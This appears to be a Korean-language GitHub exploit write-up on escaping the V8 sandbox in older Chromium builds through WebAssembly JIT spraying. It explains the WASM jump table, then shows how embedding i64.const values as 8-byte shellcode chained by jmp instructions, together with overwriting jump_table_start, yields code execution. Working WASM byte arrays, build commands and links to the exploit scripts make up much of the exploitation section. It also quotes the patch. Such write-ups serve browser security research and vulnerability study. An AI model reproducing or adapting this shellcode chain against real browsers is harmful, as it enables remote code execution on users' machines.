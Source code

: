 # Escaping V8 Sandbox via WebAssembly JIT Spraying (Chromium < 122.0.6261.57, V8 < 12.2.170)

## Setup

- Ubuntu 22.04.5 LTS
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (2024.01.04.)

[setup.zsh](./setup.zsh)

## Analysis

### Function in WebAssembly module

```js
/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_code = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);

% DebugPrint(wasm_instance);
```

`wasm_module`은 4개의 함수를 가지고 있는 Wasm module이다. Wasm module이 생성되면 함수들의 코드를 저장하기 위해 RWX permission이 설정된 영역이 할당되고, 이 영역의 가장 앞쪽에 jump table이 생성된다.

![image](https://github.com/user-attachments/assets/e30c79f2-b68b-41ad-95bb-83723fddd78c)

![image](https://github.com/user-attachments/assets/038e612e-47c1-4e32-ac37-4eaed3dad44f)

Jump table은 특정 함수가 호출되었을 때 execution flow를 어디로 옮겨야 하는지에 대한 정보를 담고 있다. Module이 생성된 후 함수가 최초로 호출되면 위와 같이 `Builtins_WasmCompileLazy()`로 jump하여 lazy compilation을 진행한다.

![image](https://github.com/user-attachments/assets/8cb8389e-668e-45a7-9be7-8bc52db395ba)

두 번째 호출부터는 바로 compile된 코드로 jump하여 실행한다.

## Exploitation

### JIT (just-in-time) spraying

```js
/*
(module
    (func (export "main")
        i64.const 0x4141414141414141
        i64.const 0x4242424242424242
        i64.const 0x4343434343434343
        return
    )
)
*/
let wasm_code = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x26, 0x1, 0x24, 0x0, 0x42, 0xc1, 0x82, 0x85, 0x8a, 0x94, 0xa8, 0xd0, 0xa0, 0xc1, 0x0, 0x42, 0xc2, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0xa1, 0xc2, 0x0, 0x42, 0xc3, 0x86, 0x8d, 0x9a, 0xb4, 0xe8, 0xd0, 0xa1, 0xc3, 0x0, 0xf, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);

wasm_instance.exports.main();
% DebugPrint(wasm_instance);
```

![image](https://github.com/user-attachments/assets/0b187d48-a91e-426c-933f-085ab655df7f)

![image](https://github.com/user-attachments/assets/5ab468cc-85f0-4a24-88c6-cba4c6376f27)

`const` instruction으로 number를 load하는 코드를 JIT compile하면 `const`의 operand가 코드에 raw numer로 삽입된다. `WasmInstanceObject`는 RWX 영역의 시작 주소인 `jump_table_start`를 8-byte full pointer로 가지고 있는데, 이 object는 V8 sandbox 내부에 위치하기 때문에 arbitrary address write primitive가 있으면 `jump_table_start`를 조작하여 `rip`를 control할 수 있다. `rip`를 코드에 삽입된 raw number의 주소(e.g. `0x3aa5e28bb84f`)로 옮기면 해당 raw number가 8바이트 길이의 shellcode로 동작하게 된다. 

### Constructing shellcode chain

8바이트 길이의 shellcode로는 원하는 코드를 실행할 수 없을 가능성이 높다. 삽입되는 raw number들 간의 거리는 `0xff`를 초과하지 않기 때문에 shellcode의 마지막 2바이트에 `jmp` instruction을 넣어서 다음 shellcode로 jump하도록 하여 shellcode chain을 구성할 수 있다.

[shellcode.py](./shellcode.py)

```shell
$ python3 shellcode.py > pwn.wat
$ ~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
$ python3 wasm.py               
[0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x2, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

![image](https://github.com/user-attachments/assets/5469f1e9-a5f4-4617-9c04-58873a4723e2)

만들어진 shellcode array에 위와 같이 중복되는 값이 있는 경우 register에 저장했다가 재사용하도록 compile되기 때문에 shellcode가 동작하지 않는다. 따라서 코드의 순서를 바꾸거나 `nop`의 위치를 옮겨서 중복되는 값이 없도록 만들어야 한다. 또한, 가용한 register가 없는 경우 register에 저장된 값을 stack에 백업하는 코드가 추가되기 때문에 shellcode 간의 거리가 변하는 것을 고려하여 `jmp`의 operand를 조절해 주어야 한다.

[pwn.wat](./pwn.wat)

```shell
$ ~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
$ python3 wasm.py
[0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

[pwn.js](./pwn.js)

![image](https://github.com/user-attachments/assets/b3a07117-565b-4eb4-850c-7e31572fc3cb)

## Patch

> [wasm - Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (2024.01.04.)
>
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).
